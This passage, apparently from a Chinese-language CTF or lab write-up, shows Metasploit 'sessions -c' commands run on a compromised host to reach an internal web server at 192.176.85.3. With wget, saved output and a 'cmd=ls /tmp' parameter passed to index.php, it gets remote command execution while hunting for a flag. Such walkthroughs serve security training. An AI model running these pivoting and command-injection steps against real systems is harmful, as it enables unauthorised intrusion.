 ![](../img/DaleChu/till_run.png)

![](../img/DaleChu/services_hosts.png)

注意到这里开放了 80 端口的 ip 是 **192.176.85.3** !


```shell
sessions -c "wget http://192.176.85.3" -i 6

# 发现没有命令执行回显，试试组合命令
sessions -c "wget http://192.176.85.3 -O /tmp/result && cat /tmp/result" -i 6

# 发现 get flag 提示
sessions -c "wget 'http://192.176.85.3/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 6

```
